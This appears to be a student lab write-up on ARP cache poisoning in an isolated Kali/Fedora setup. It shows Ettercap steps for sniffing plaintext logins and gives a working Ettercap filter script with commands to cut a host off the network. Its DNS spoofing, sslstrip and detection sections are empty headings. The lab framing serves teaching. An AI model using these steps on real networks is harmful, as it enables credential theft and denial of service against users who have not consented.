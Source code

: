 # LAN based insider attacks


Make use of Ettercap/arpspoof tool to perform ARP Cache Poisoning based attacks in a LAN
environment:

1. Perform Password stealing (over plaintext) using ARP Cache Poisoning attacks

For this attack we take 2 systems, 

- Kali (attacker) - 10.0.2.4
- Fedora (victim) - 10.0.2.5

First open `Ettercap` in kali linux

![image](https://user-images.githubusercontent.com/67383098/227707390-3f713cac-ab0d-49cf-b7ff-e9a0eb6071e1.png)

![image](https://user-images.githubusercontent.com/67383098/227707494-dee50bd4-2060-4b37-bc30-cacd7f567ba4.png)

![image](https://user-images.githubusercontent.com/67383098/227707588-259bf7ee-4b21-496f-acd7-bf9524a4b214.png)

![image](https://user-images.githubusercontent.com/67383098/227707616-48f7c6ec-6878-4e60-9140-05e3200411e5.png)

Add the ip address `10.0.2.5` as target.
Go to `MITM` -> select `arp poisoning`

![image](https://user-images.githubusercontent.com/67383098/227707736-b39fa6b7-5042-4297-8b85-0929575b5b16.png)

![image](https://user-images.githubusercontent.com/67383098/227707796-8adc7383-2049-4771-afdc-91a11afa2c4f.png)

Click **OK**. Now attack has started.

On attacker machine, open firefox & go to `testphp.vulnweb.com`

![image](https://user-images.githubusercontent.com/67383098/227707932-689b2035-4be9-4364-ace1-30abbe179712.png)

After we try to login with the credentials, we can see the packet being sniffed by ettercap in our kali attacker machine .

![image](https://user-images.githubusercontent.com/67383098/227708010-ebe6e2e4-8b17-4e59-acb5-67eb593e0326.png)




2. Perform Denial of Service (DoS) attacks using ARP Cache Poisoning attacks

Ettercap has many built-in tools to allow all sorts of network activity from sniffing to ARP spoofing. It also has the ability to use filters to focus its activity. For example, we want to block a host from the network, the simplest way to do that is to not allow any packets to be sent to or from the host we wish to block. Ettercap filters allow us to do just that.

#### Wrtiting a filter :

Open a text editor and type the below code . Replace the target IP as `10.0.2.5`.

```
if (ip.src == 'Target IP' || ip.dst == 'Target IP')
{
drop();
kill();
msg("Packet Dropped\n");
}
```
> The scipt sees if the Source IP OR  the Destination IP matches our target. If it does it drops the packet and sents a RST signal to the other machine our target was > attempting to communicate with. It then outputs a message to our screen so we know a Packet Dropped.

#### Compiling the script

To run it and compile our script we simply type: `etterfilter dos.elt -o dos.ef`

Save the file as `dos.elt` in the `/usr/local/share/ettercap`.

#### Starting up ettercap

`ettercap -T -q -F /usr/local/share/ettercap/dos.ef -M ARP /TARGET IP/ //`

where

`-T` - run in Text Mode
`-q` - quiet mode 
`-F` - to load a filter
`-M` - to run a Man in the Middle Attack

#### Attack

`ettercap -T -q -F /usr/local/share/ettercap/dos.ef -M ARP /192.168.1.209/ //`

Our target is now effectively off the network.




3. Perform DNS Spoofing attack using ARP Cache Poisoning attacks


4. Invoke ‘sslstrip tool’ for stealing passwords from any machine that is connected to a LAN by
stripping the HTTPS connection.

5. Use arp_cop and scan_poisoner plugins to learn about the detection of ARP attacks.


Observe the ARP cache table, CAM table, etc., before and after the attack for all the above attacks. Run
Wireshark and observe the traffic patterns before and after the attack
